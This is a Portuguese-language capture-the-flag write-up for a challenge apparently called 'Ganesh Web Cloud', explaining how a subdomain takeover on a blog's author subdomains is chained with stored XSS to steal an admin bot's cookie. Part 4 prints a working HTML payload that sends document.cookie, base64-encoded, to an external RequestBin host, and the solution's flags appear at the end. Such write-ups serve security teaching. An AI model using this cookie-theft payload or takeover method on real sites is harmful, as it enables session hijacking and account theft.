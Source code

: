 # Ganesh Web Cloud ~ Subdomain Takeover + XSS

## Investigando o Desafio

Neste desafio nos deparamos com uma página de um blog simples que contem as seguintes páginas:

- **Homepage:** Contém uma lista de posts cujos links levam para uma mesma postagem (provavelmente a única do desafio), uma barra lateral que nos permite enviar links para um administrador (provavelmente sendo usada por algum bot) e dois links no rodapé para as páginas dos autores.
- **Autor Charles/Van Loon:** páginas simples com o nome dos autores, um background simples e nenhuma capacidade de iteração adicional. Porém localizadas em um subdominio do blog (http://charles.blog.ganeshicmc.com:8001/ e http://vanloon.blog.ganeshicmc.com:8001/)
- **Post do Blog:** um post simples com formulário para comentário que reflete na página (não salva num DB, apenas cria uma url) e que parece estar sanitizando o input contra XSS. (http://blog.ganeshicmc.com:8001/blog/diario-viajante-ep7/)

Analisando o JS da página não encontramos nada que possa indicar algum possível DOM-XSS e vemos que um cookie está sendo configurado:

```
Set-Cookie: flag=Ganesh%7BYou_4re_N0t_Th3_4dmiN_baka%7D; Domain=blog.ganeshicmc.com; Path=/
```

## Parte 1 ~ Descobrindo o Subdomain Takeover

A primeira etapa do desafio necessita que o usuário perceba que as páginas dos autores não levam para um novo path e sim para um subdomínio. Percebendo isso podemos utilizar algum utilitário de DNS para descobrir que os subdomínios foram configurados como CNAME para um hostname `myprofile.ganesh.icmc.com` que pode ser acessado pela url http://myprofile.ganeshicmc.com:8001/. 

## Parte 2 ~ Estudando o Myprofile

Dentro do Myprofile, encontramos um serviço em que podemos fazer as seguintes ações:

- **Login/Registro** dado um par usuário e senha podemos criar ou entrar em uma conta existente no sistema. Não é vulnerável a SQL injection.
- **Editar Perfil** dentro da conta temos um formulário com dois campos:
  - **Custom Domain:** permite atrelar um domínio à sua conta.
  - **HTML Content** permite inserir texto HTML válido.
- **Visualizar perfil** exibe o conteúdo inserido de HTML Content na página anterior sem nenhum tipo de sanitização.

## Parte 3 ~ Encontrando Subdomínios vulneráveis

Dado que Myprofile existe e nos permite criar páginas com payloads XSS ao nosso dispor, queremos encontrar outros subdomínios do blog que apontem para o Myprofile mas que estejam disponíveis para uso (vanloon e charles no caso já estão sendo utilizados). Para isso podemos ter 2 métodos:

- **1º - Bruteforce aleatório:** testar combinações de caracteres alfanuméricos para encontrar subdomínios do blog que apontem para myprofile, OU
- **2º - Ataque de Dicionário** testar subdomínios dado uma lista de possibilidades.

Neste desafio o objetivo era que o jogador percebesse, ao analisar o HTML da página inicial do blog, que além dos autores Van Loon e Charles havia uma série de outras tags HTML comentadas que poderiam servir como fonte para criação de um dicionário para testes de subdomínios:

```html
<a style="display: none;" data-author="arabe" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Arabe</a>
<a style="display: none;" data-author="baqueta" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Baqueta</a>
<a style="display: none;" data-author="bio" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Bio</a>
<a style="display: none;" data-author="brandt" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Brandt</a>
<a style="" data-author="charles" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Charles</a>
...
<a style="" data-author="vanloon" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Van Loon</a>
<a style="display: none;" data-author="vini" href="#" onclick="window.location=`http://${this.dataset.author}.blog.ganeshicmc.com:8001/`">Vini</a>
```

Para evitar a extração manual, o seguinte snippet poderia ser usado no console para extrair a lista:

```javascript
Array.from(document.getElementsByClassName('authors')[0].getElementsByTagName('a')).map(x => x.dataset.author)
```

Com isso, testando as combinações de subdomínios descobririamos alguns vulneráveis para takeover tal como `guerra.blog.ganeshicmc.com`

## Parte 4 ~ Criando o Payload

Encontrado um subdomínio vulnerável, podemos cadastrar uma conta no Myprofile, cadastrar o domínio `guerra.blog.ganeshicmc.com` e criar um payload que extraia os cookies e envie para algum RequestBin ou outro local de nosso controle como o seguinte:

```html
 <!DOCTYPE html>
<html>
  <head>
  <title>Page Title</title>
  </head>
<body>
  <h1>Cookie Extractor</h1>
  <p>Payload para roubar cookie com dois requests de controle para auxiliar :)</p>
  
  <img src="http://ent6k7fximtwm.x.pipedream.net/control.png"/>
  <script>fetch('http://ent6k7fximtwm.x.pipedream.net/c=' + btoa(document.cookie));</script>
  <img src="http://ent6k7fximtwm.x.pipedream.net/control2.png"/>
  
</body>
</html> 
```

Com isto basta enviarmos o link (http://guerra.blog.ganeshicmc.com:8001/) para o administrador e recuperar a flag:

```
ZmxhZz1HYW5lc2h7UzBfdGg0dHNfdGgzX3IzQXM5bl9JX24zM2RfdG9fMWU0ck5fVzNiXzRuZF9OZVR3MHJrU19IbW1tfQ==
Ganesh{S0_th4ts_th3_r3As9n_I_n33d_to_1e4rN_W3b_4nd_NeTw0rkS_Hmmm}
```



